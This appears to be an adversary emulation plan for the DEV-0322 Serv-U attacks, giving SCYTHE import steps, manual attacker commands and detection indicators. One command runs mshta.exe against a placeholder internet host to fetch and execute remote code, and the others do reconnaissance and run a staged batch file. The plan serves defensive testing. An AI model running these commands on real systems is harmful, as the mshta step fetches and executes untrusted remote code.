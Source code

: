 # DEV-0322 Adversary Emulation Plan

This threat is based on Microsoft Threat Intelligence Center (MSTIC) report post on July 13, 2021: https://www.microsoft.com/security/blog/2021/07/13/microsoft-discovers-threat-actor-targeting-solarwinds-serv-u-software-with-0-day-exploit/

## Emulate with SCYTHE
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/Conti/Conti_scythe_threat.json
2. Create a new campaign
3. Import from Existing Threat: DEV-0322
4. Launch Campaign
5. Execute from an EXE

## Emulate manually
Open a command prompt and run these commands:
``` C:\Windows\System32\mshta.exe http://<An Internet IP>```
```cmd.exe /c whoami > whoami.txt```
```cmd.exe /c dir > dir.txt```
```cmd.exe /c echo whoami > C:\Windows\Temp\Serv-U.bat```
```cmd.exe /c "C:\Windows\Temp\Serv-U.bat"```
```powershell.exe "C:\Windows\Temp\Serv-U.bat"```

## Detection & Response
- An executable spawning mshta.exe
- An executable spawning cmd.exe
- An executable spawning powershell.exe
- An executable spawning whoami
- An executable spawning dir
- mshta.exe reaching out to the internet